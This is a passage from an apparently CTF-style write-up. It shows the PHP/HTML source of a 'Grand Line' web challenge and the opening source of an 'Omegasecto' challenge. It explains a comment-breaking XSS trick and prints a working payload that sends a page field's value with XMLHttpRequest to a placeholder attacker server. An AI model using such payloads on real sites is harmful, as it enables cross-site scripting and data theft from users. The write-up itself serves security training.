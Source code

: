 ```html
}

?>

  <h4>If you eat fruit, you can't swim</h4>
        <img src="images/grandline.png"/>
        <br>
        <form method="get" action="index.php">
        <input type="text" name="eat" placeholder="" value="gomu gomu no mi">         
        <input type="submit">
        </form>
    <?php  
    if(isset($_GET['eat'])&&!empty($_GET['eat']))
    {
        if($_GET['eat'] === "gomu gomu no mi")
        {
            echo "<p>Pirate, Let's go to your Grand Line</p>";
        }
        else
        {
            echo "<p>You need to eat 'gomu gomu no mi'</p>";
        }
    }

    ?>
</div>


</body>
</html>
<!-- Infact, ?debug will help you learn expression to build Grand Line ( Ex: !<>+-*/ )
...
```

Notice the `/* * *  Power By 0xd0ff9 * * * `, `*/ )` and `echo "<!-- P/s: Your grand line is ".htmlentities(urldecode($grandline),ENT_QUOTES)." , this is not Luffy 's grand line -->"; `, we can add a `/*/` in our http request to enclose the comment. As a result, we can execute code as this:
```
http://url/*/alert(`1`/*
```

So, we use `ajax` to bring out my data, the final payload is like:

```
http://http://178.128.6.184/3915ef41890b96cc883ba6ef06b944805c9650ee/index.php/*/window.onload=function(){x=new XMLHttpRequest();x.open(`GET`,`http://yourserver/`+encodeURI(JSON.stringify(document.getElementsByName(`piece`)[0].value)));x.send()};console.log(``/*/
```


## Omegasecto

Source code:
```php
<?php 
ob_start(); 
session_start(); 
?> 
<html> 
<style type="text/css">* {cursor: url(assets/maplcursor.cur), auto !important;}</style> 
<head> 
  <link rel="stylesheet" href="assets/omega_sector.css">
  <link rel="stylesheet" href="assets/tsu_effect.css">
</head> 

<?php 
```